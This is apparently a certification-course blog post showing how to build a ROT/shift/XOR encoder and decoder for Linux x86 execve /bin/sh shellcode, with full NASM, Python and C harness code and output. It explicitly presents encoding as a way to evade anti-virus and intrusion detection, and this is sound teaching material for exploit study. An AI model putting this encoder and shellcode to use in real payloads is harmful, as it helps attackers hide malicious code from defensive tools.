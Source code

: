 ```yaml
---
layout: single
title: (Rot-n + Shift-n + Xor-n) Shellcode Encoder - Linux x86
date: 2018-1-22
classes: wide
header:
---
```


Introduction
------------
According to English dictionary, encode is converting something, such as a body of information from one system of communications to another; especially: to convert a message into code. This blog post will combine three basic encoding operations (more on that later) to encode sample shellcode and then decode/execute it to demonstrate the concept.

Encoder
-------
In this section, we’ll create 3-phase encoder that takes one byte of given shellcode at a time, mangle it and then produce an encoded word (2 bytes). The following will describe what each phase will do. Phase I (ROT-N), in this phase we add number N to shellcode byte. Phase II (Shift-N), in this phase we shift `stdout` from phase one to left by N. Phase III (XOR-N), here we just XOR `stdou`t from phase two to get the final encoded word. Before we start working on the encoder, let’s write shellcode that spawn shell to test with.

```nasm
global _start			

section .text

_start:
    ;
    ; execve() code block
    ;
    xor eax,eax       ; initiliaze EAX
    push eax          ; push null terminator
    push 0x68732f2f   ; push /bin//sh
    push 0x6e69622f
    xchg ebx,esp      ; save stack pointer to EBX
    mov al,0xb        ; __NR_execve 11
    int 0x80          ; ping kernel!
```

Let’s compile `execve()` code block and then dump shellcode.

```sh
ihack4falafel@ubuntu:~$ nasm -f elf32 -o sh.o sh.nasm 
ihack4falafel@ubuntu:~$ ld -z execstack -o sh sh.o
ihack4falafel@ubuntu:~$ objdump -d ./sh|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xdc\xb0\x0b\xcd\x80"
ihack4falafel@ubuntu:~$ 
```

We’ll create python script that takes ROT, Shift, and XOR as user input and print original and encoded shellcode, please note you still need to update the shellcode inside the script to your liking. For this post, we’ll use the one created earlier.  It’s worth noting that the script shift operation number can only be anything between 1 and 8 bits due to `encoded_shellcode` size (word) in the decoder. Also, we’ve added XOR input value to the end of the encoded shellcode as terminator, so if XOR operation in the decoder results in zero that means hey stop decoding.

```python
#!/usr/bin/python
#---------------------------------------------------------------------------------------------#
# Script        = Encoder.py                                                                  #
# SLAE-ID       = SLAE-1115                                                                   #
# Description   = [ROT-N + SHL-N + XOR-N] Encoder                                             #
# Date          = 1/19/2018                                                                   #
# Author        = @ihack4falafel                                                              #
# Usage         = python Encoder.py <ROT number> <number of bits to shift> <XOR number>       #
#---------------------------------------------------------------------------------------------#

import sys

# Colors 
#---------------#---------#
W  = '\033[0m'  # White   #
P  = '\033[35m' # Purple  #
Y  = '\033[33m' # Yellow  #
#---------------#---------#

# Check ROT, SHL, and XOR input, otherwise print usage, example, and important notes!
if len(sys.argv) < 4:
  print Y+ "Usage               :" + P+  " python Encoder.py <ROT number> <number of bits to shift> <XOR number>  " +W
  print Y+ "Example             :" + P+  " python Encoder.py 13 1 1337                                            " +W
  print Y+ "Notes               :" + P+  " 1) Make sure to update Decoder.nasm with input values.                 " +W
  print    "                     " + P+  " 2) Due to encoded_shellcode size (word) in Decoder.nasm, shift operatio" +W
  print    "                     " + P+  "    n is limited to <1-8> bits. Feel free to upgrade size to DW to allow" +W
  print    "                     " + P+  "    up to 16-bits shift operation.                                      " +W
  print    "                     " + P+  " 3) Encoder.py currently include /bin/sh shellcode as proof of concept. " +W
  print    "                     " + P+  "    Make sure to change it to your desired shellcode.                   " +W
  sys.exit(0)

ROT     = int(sys.argv[1])
nbits   = int(sys.argv[2])
XOR     = int(sys.argv[3])

# initial values   
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xdc\xb0\x0b\xcd\x80")           # paste your shellcode here
XOR_HEX = hex(XOR)                                                                                     # Encoded shellcode terminator     
encoded_shellcode  = "" 
original_shellcode = ""

# Orginal shellcode formatted
for x in bytearray(shellcode):
  original_shellcode += '0x'
  original_shellcode += '%02x, ' %x

# [ROT-N + SHL-N + XOR-N] encoded shellcode formatted   
for y in bytearray(shellcode):  
  byte = (y + ROT)%256                                                                                  #|-->ROT-N               
  byte = byte << nbits                                                                                  #########|-->SHL-N
  byte = byte ^ XOR                                                                                     #################|-->XOR-N	                                                                                  
  encoded_shellcode += '0x'
  encoded_shellcode += '%02x, ' %byte

# print original and encoded shellcode
print Y+ "Original Shellcode: " + P+ original_shellcode              +W
print Y+ "Encoded Shellcode : " + P+ encoded_shellcode  + Y+ XOR_HEX +W
```

Generate encoded shellcode.

```sh
ihack4falafel@ubuntu:~$ python Encoder.py 13 1 1337
Original Shellcode: 0x31, 0xc0, 0x50, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x87, 0xdc, 0xb0, 0x0b, 0xcd, 0x80, 
Encoded Shellcode : 0x545, 0x4a3, 0x583, 0x5d3, 0x541, 0x541, 0x439, 0x5d3, 0x5d3, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x411, 0x4eb, 0x443, 0x509, 0x48d, 0x423, 0x539
ihack4falafel@ubuntu:~$
```

Decoder
-------
Now comes the decoding part, let’s write code that basically takes encoded shellcode produced earlier , decode it in reverse order and then execute.

```nasm
global _start

section .text

_start:
    ;
    ; [ROT-N + SHL-N + XOR-N] encoded execve() code block
    ;
    jmp short call_decoder       ; jump to call_decoder to save encoded_shellcode pointer to ESI
	
decoder:

    pop esi                      ; store encoded_shellcode pointer in ESI
    push esi                     ; push encoded_shellcode pointer to stack for later execution
    mov edi, esi                 ; move encoded_shellcode pointer to EDI

decode:
    ;
    ; note: 1) Make sure ROT, SHR, and XOR here match your encoder.py input.
    ;       2) Hence we're limited by the size of encoded_shellcode (word),
    ;          SHR is limited to <1-8> bits. Feel free to upgrade size to DW 
    ;          to allow up to 16-bits shift if need be.
    ;
    mov ax, [esi]                ; move current word from encoded_shellcode to AX
    xor ax, 0x539                ; XOR encoded_shellcode with 1337, one word at a time  
    jz decoded_shellcode         ; if zero jump to decoded_shellcode
    shr ax, 1                    ; shift encoded_shellcode to right by one bit, one word at a time	
    sub ax, 13                   ; substract 13 from encoded_shellcode, one word at a time
    mov [edi], al                ; move decoded byte to EDI	
    inc esi                      ; point to the next encoded_shellcode word
    inc esi
    inc edi                      ; point to the next decoded_shellcode byte
    jmp short decode             ; jump to decode and repeat the decoding process for the next word!

decoded_shellcode:
    call [esp]                   ; execute decoded_shellcode

call_decoder:
    call decoder
    encoded_shellcode: dw 0x545, 0x4a3, 0x583, 0x5d3, 0x541, 0x541, 0x439, 0x5d3, 0x5d3, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x411, 0x4eb, 0x443, 0x509, 0x48d, 0x423, 0x539
```

Compile and dump shellcode.

```sh
ihack4falafel@ubuntu:~# nasm -f elf32 -o Decoder.o Decoder.nasm 
ihack4falafel@ubuntu:~# ld -z execstack -o Decoder Decoder.o
ihack4falafel@ubuntu:~# objdump -d ./Decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x1e\x5e\x56\x89\xf7\x66\x8b\x06\x66\x35\x39\x05\x74\x0e\x66\xd1\xe8\x66\x83\xe8\x0d\x88\x07\x46\x46\x47\xeb\xe9\xff\x14\x24\xe8\xdd\xff\xff\xff\x45\x05\xa3\x04\x83\x05\xd3\x05\x41\x05\x41\x05\x39\x04\xd3\x05\xd3\x05\x41\x05\xe7\x05\xd5\x05\xcf\x05\x11\x04\xeb\x04\x43\x04\x09\x05\x8d\x04\x23\x04\x39\x05"
ihack4falafel@ubuntu:~#
```

Add it to final exploit.

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x1e\x5e\x56\x89\xf7\x66\x8b\x06\x66\x35\x39\x05\x74\x0e\x66\xd1\xe8\x66\x83\xe8\x0d\x88\x07\x46\x46\x47\xeb\xe9\xff\x14\x24\xe8\xdd\xff\xff\xff\x45\x05\xa3\x04\x83\x05\xd3\x05\x41\x05\x41\x05\x39\x04\xd3\x05\xd3\x05\x41\x05\xe7\x05\xd5\x05\xcf\x05\x11\x04\xeb\x04\x43\x04\x09\x05\x8d\x04\x23\x04\x39\x05";

void main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

Demo time


[![Encoder/Decoder Demo](https://github.com/ihack4falafel/ihack4falafel.github.io/blob/master/assets/images/chmod.png)](https://player.vimeo.com/video/252202488?dnt=1&app_id=122963 "Click to Watch!")

Closing Thoughts
----------------
I believe learning shellcode encoding is essential to exploit development, in order to evade modern anti-viruses and/or intrusion detection/prevention systems. Please note all of the code in this post were tested on Ubuntu 12.04.5 LTS. Feel free to contact me for questions via twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1115

Github Repo: [https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%204](https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%204)
